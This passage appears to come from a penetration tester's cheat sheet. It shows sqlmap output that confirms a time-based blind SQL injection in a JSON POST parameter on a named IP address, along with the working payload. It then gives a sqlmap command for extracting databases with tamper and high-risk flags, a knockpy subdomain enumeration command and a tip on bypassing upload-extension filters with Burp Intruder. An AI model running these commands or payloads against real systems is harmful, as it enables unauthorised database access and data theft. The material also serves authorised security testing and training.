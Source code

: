 		[*] starting @ 14:30:07 /2021-01-31/

		[14:30:07] [INFO] parsing HTTP request from 'req.raw'
		[14:30:07] [INFO] loading tamper module 'charunicodeescape'
		custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y
		JSON data found in POST body. Do you want to process it? [Y/n/q] Y
		[14:30:08] [INFO] testing connection to the target URL
		[14:30:08] [WARNING] heuristic (basic) test shows that (custom) POST parameter 'JSON #1*' might not be injectable
		[14:30:08] [INFO] testing for SQL injection on (custom) POST parameter 'JSON #1*'
		[14:30:08] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
		[14:30:08] [WARNING] time-based comparison requires larger statistical model, please wait............................ (done)                                                                   
		[14:30:21] [INFO] (custom) POST parameter 'JSON #1*' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
		[14:30:21] [INFO] checking if the injection point on (custom) POST parameter 'JSON #1*' is a false positive
		(custom) POST parameter 'JSON #1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
		sqlmap identified the following injection point(s) with a total of 63 HTTP(s) requests:
		---
		Parameter: JSON #1* ((custom) POST)
		    Type: time-based blind
		    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
		    Payload: {"user":"' AND (SELECT 3680 FROM (SELECT(SLEEP(5)))wJkX)-- tmXO"}
		---
		[14:31:13] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
		[14:31:13] [INFO] the back-end DBMS is MySQL
		[14:31:13] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
		back-end DBMS: MySQL >= 5.0.12
		[14:31:14] [INFO] fetched data logged to text files under '/home/R0cK/.local/share/sqlmap/output/134.209.31.231'

- Then extract the database name with the `--dbs` param: (it might take a while)
	
		sqlmap -r req.raw --batch --level 5 --threads 10 --risk 3 --dbms mysql --tamper=charunicodeescape --proxy http://127.0.0.1:8080 --technique=T --time-sec=2

# SUBDOMAINS ENUMERATION
## KNOCK
https://github.com/guelfoweb/knock  

	python knockpy.py domain.com

# Bypass extensions policies in forms with Intruders
https://portswigger.net/burp/documentation/desktop/tools/intruder/payloads/types#recursive-grep  
https://github.com/monstra-cms/monstra/issues/429  

If some files are blocked to be uploaded then we can use intruder to try different extensions.
